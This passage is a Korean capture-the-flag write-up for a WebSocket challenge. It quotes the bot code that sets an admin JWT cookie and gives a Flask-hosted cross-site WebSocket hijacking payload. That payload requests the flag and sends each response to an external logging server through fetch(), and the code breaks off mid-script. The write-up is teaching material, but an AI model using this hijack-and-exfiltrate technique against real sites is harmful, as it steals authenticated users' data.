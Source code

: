 즉, 전달받은 URL(`url`)을 봇이 브라우저로 방문하는데, 이때 쿠키 `token` 의 값을 JWT로 생성된 토큰(`userId: 'admin'`)으로 설정하고 있습니다.

```jsx
// Admin cookie for authentication
const adminCookie = jwt.sign({ userId: 'admin' }, JWT_SECRET);
// ... 생략 ...
let cookies = [{
  name: 'token',
  value: adminCookie,
  domain: 'wembsoncket.chal.cyberjousting.com',
  httpOnly: true,
  sameSite: 'None',
  secure: true
}];
// console.log('Setting cookies:', cookies);
await page.setCookie(...cookies);
// ... 생략 ...
const response = await page.goto(url, { timeout: 10000, waitUntil: 'networkidle2' });
```

따라서, 플래그는 다음의 과정을 통해 획득할 수 있습니다.

✅ 플래그 획득 과정

1. `/getFlag` 요청을 보내고 응답(플래그)을 수신하는 WebSocket 스크립트를 작성해 서버에 호스팅합니다.
2. 해당 스크립트의 URL을 챗봇에 전송합니다.
3. 챗봇은 `userId: 'admin'` JWT를 쿠키에 담아 해당 URL로 접속합니다.
4. 접속한 페이지에서 웹 소켓 연결 후 `/getFlag` 메시지를 전송합니다.
5. 서버는 admin 권한을 확인하고 플래그를 응답합니다.
6. 페이지는 응답받은 플래그를 외부 서버로 전송합니다.

## Solution

먼저, 봇이 `/getFlag` 를 요청하고 그 응답을 전송하는 스크립트를 `Flask` 프레임워크를 이용해 아래와 같이 구현했습니다.

```python
from flask import Flask, request, Response
from flask_cors import CORS

PORT = 80
TARGET = "wss://wembsoncket.chal.cyberjousting.com/" # 웹 소켓 서버
LOG_SERVER = "http://test.dottak.me" # 이 코드가 동작하는 서버 주소

app = Flask(__name__)
CORS(app)
@app.route('/', methods=['GET'])
def main():
    
    script = f"""
    <script>

    const ws = new WebSocket("{TARGET}");
    
    ws.addEventListener("open", () => {{
        fetch("{LOG_SERVER}/log?tag=event&data=open");
        ws.send("{{\\"message\\": \\"/getFlag\\"}}")
    }});
    
    ws.addEventListener("message", (event) => {{
        fetch("{LOG_SERVER}/log?tag=recv&data=" + event.data);
    }});

    ws.addEventListener("close", (event) => {{
        fetch("{LOG_SERVER}/log?tag=event&data=close("+event.code+", "+event.reason+")");
    }});
    
```